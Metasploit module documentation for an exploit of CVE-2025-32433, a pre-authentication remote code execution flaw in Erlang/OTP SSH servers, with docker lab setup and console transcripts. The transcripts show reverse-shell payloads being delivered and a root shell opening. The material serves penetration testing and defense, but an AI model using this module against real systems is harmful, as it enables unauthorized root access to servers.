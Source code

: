 ## Vulnerable Application

Erlang/OTP is a set of libraries for the Erlang programming language.

Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20, a SSH server may allow an attacker
to perform unauthenticated remote code execution (RCE).

By exploiting a flaw in SSH protocol message handling, a malicious actor could gain unauthorized access
to affected systems and execute arbitrary commands without valid credentials. This issue is patched in
versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20.

### Introduction

This module exploits CVE-2025-32433, a pre-authentication vulnerability in Erlang-based SSH servers
that allows remote command execution. By sending crafted SSH packets, it executes a Metasploit
payload to establish a reverse shell on the target system.

The exploit leverages a flaw in the SSH protocol handling to execute commands via the Erlang `os:cmd`
function without requiring authentication.

## Testing

### Vulnerable application

Execute the following commands:

```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
docker build -t cve-ssh:latest .
docker run -d -p 2222:2222 cve-ssh:latest
```

### Patched application

Execute the following commands:

```bash
git clone https://github.com/exa-offsec/ssh_erlangotp_rce
cd ssh_erlangotp_rce/patched
docker build -t patched-ssh:latest .
docker run -d -p 2223:2223 patched-ssh:latest
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/ssh/ssh_erlangotp_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios

### Target 0

Use the linux commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.16     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   2222             yes       The target port

Payload options (cmd/linux/https/x64/meterpreter/reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS    false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             192.168.1.16     yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port

   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      PBAcwEBEszFT     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces

Exploit target:

   Id  Name
   --  ----
   0   Linux Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > check
[*] 192.168.1.16:2222 - Using auxiliary/scanner/ssh/ssh_erlangotp as check
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - The target is vulnerable to CVE-2025-32433.
[*] 192.168.1.16:2222      - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.16:2222 - The target is vulnerable.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.1.16:4444 
[*] 192.168.1.16:2222 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.16:2222 - Using auxiliary/scanner/ssh/ssh_erlangotp as check
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - The target is vulnerable to CVE-2025-32433.
[*] 192.168.1.16:2222      - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.16:2222 - The target is vulnerable.
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Starting exploit for CVE-2025-32433
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH banner...
[+] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Payload sent successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.16:4444 -> 172.17.0.2:42718) at 2025-04-20 17:31:35 +0400

meterpreter > 
```

### Target 1

Use the unix commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.16     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   2222             yes       The target port

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.16     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > check
[*] 192.168.1.16:2222 - Using auxiliary/scanner/ssh/ssh_erlangotp as check
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - The target is vulnerable to CVE-2025-32433.
[*] 192.168.1.16:2222      - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.16:2222 - The target is vulnerable.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.1.16:4444 
[*] 192.168.1.16:2222 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.1.16:2222 - Using auxiliary/scanner/ssh/ssh_erlangotp as check
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.1.16:2222      - ssh://192.168.1.16:2222 - The target is vulnerable to CVE-2025-32433.
[*] 192.168.1.16:2222      - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.16:2222 - The target is vulnerable.
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Starting exploit for CVE-2025-32433
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH banner...
[+] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.1.16:2222 - ssh://192.168.1.16:2222 - Payload sent successfully
[*] Command shell session 3 opened (192.168.1.16:4444 -> 172.17.0.2:45134) at 2025-04-20 17:33:33 +0400

whoami
root
```

## References

1. <https://x.com/Horizon3Attack/status/1912945580902334793>
2. <https://platformsecurity.com/blog/CVE-2025-32433-poc>
3. <https://github.com/ProDefense/CVE-2025-32433>
